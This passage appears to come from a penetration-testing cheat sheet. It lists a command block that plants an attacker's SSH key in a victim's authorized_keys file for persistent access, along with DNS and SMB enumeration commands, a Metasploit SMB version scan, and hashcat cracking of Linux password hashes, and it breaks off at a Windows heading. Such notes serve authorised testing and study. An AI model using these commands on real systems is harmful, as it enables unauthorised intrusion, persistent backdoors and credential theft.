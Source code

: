 ```  
#Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
 ```
 
## DNS 53

```  
dnsenum <DOMAIN>
```
```  
dnsrecon -d <DOMAIN>
```

## SMB 445

```  
smbclient -L <IP>
```
- Manual testing

```  
smbmap -H <IP>
```

```  
enum4linux -a <IP>
```

- Finding SMB version

```  
msf> use auxiliary/scanner/smb/smb_version
msf> options
msf> set rhosts <target_ip>
msf> run
```

# Password cracking 

- Linux password cracking 

```  
hashcat -m 1800 -a 0 hash.txt rockyou.txt
hashcat -m 1800 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

- Windows password cracking
